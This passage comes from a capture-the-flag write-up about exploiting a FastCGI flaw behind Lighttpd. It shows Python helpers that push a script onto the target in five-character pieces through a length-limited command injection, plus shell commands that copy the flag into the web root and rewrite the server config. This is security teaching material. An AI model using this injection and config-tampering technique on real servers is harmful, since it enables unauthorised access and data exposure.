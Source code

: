 ```sh
manjaro
zsh: segmentation fault (core dumped)  spawn-fcgi -n -p 9555 -- ./challenge
```

### Retrieving the flag

There was a length-limited command, so I couldn’t retrieve the flag directly.  
Instead, I first decided to create a function that would write a file on the remote system, which I could later execute.
```py
def attack_and_wait(cmd: bytes):
    dummy_request()
    attack(cmd)
    sleep(1)


def write_file(file):
    lines = [i.strip() for i in open(file).readlines()]
    for ln in lines:
        for i in range(0, len(ln), 5):
            attack_and_wait(f"echo -n '{ln[i:i+5]}'>>a".encode())
        attack_and_wait(b"echo >>a")
```
The file I chose to write modified the Lighttpd configuration to enable serving static files,  
and copied the flag to the `www` directory, which is accessible through the Lighttpd server.
```sh
cp /flag www
sed -i "s/disable/enable/" lighttpd.conf
sed -i "s/mod_fastcgi/mod_staticfile/" lighttpd.conf
pkill lighttpd
sleep 2
./run.sh
```
Finally, I executed the attack as follows:
```py
write_file("script.sh")
attack_and_wait(b"sh a")
```
After that, I simply used `curl` on the web server and retrieved the flag:
```sh
$ curl localhost:8888/flag
ctf{fake_flag_for_testing}
```
## Conclusion
I recommend reading the [PoC](https://www.synacktiv.com/en/publications/cve-2025-23016-exploiting-the-fastcgi-library) if you want more details about exploiting this vulnerability.  
I also believe this challenge was heavily inspired by that PoC, as the binary is quite similar to the one used in their demonstration.

You can check out the full exploit here: [exploit.py](/blog/scripts/d3cgi/exploit.py)
